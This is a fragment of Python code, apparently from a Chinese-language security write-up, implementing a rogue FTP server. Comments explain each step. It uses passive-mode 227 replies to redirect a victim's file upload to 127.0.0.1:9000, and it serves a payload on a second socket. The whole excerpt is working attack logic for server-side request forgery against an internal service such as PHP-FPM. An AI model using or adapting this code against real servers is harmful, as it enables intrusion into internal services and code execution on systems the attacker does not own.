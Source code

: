 ```python
    if count == 1:
        conn.send(b"227 127,0,0,1,4,210\n")  # 这里填写自己的IP 服务端告诉客户端需要到哪个ip:port去获取数据,ip,port都是用逗号隔开，其中端口的计算规则为：4*256+210=1234
    else:
        conn.send(b"227 127,0,0,1,35,40\n")  # 端口计算规则：35*256+40=9000
​
    print(conn.recv(20))  # 第一次连接会收到命令RETR /123\r\n，第二次连接会收到STOR /123\r\n
    if count == 1:
        conn.send(b"125 \n") # 告诉客户端可以开始数据链接了
        # 新建一个socket给服务端返回我们的payload
        print("建立连接!")
        conn2, address2 = sk2.accept()
        conn2.send(payload)
        conn2.close()
        print("断开连接!")
    else:
        conn.send(b"150 \n")
        print(conn.recv(20))
        exit()
​
    # 第一次连接是下载文件，需要告诉客户端下载已经结束
    if count == 1:
        conn.send(b"226 \n")
    conn.close()
    count += 1
```